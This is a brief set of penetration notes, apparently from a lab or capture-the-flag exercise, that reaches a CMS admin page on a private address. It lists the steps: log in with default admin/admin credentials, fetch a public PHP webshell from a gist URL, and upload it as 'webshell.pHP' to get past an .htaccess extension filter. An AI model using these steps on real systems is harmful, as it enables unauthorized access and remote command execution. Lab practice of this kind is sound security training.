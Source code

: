 web admin access
```
http://192.168.245.249:8000/cms/admin.php
```

login
```
user: admin
password: admin
```

prepare webshell
```
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
```

upload webshell 
```
webshell.pHP <- bypass .htaccess
```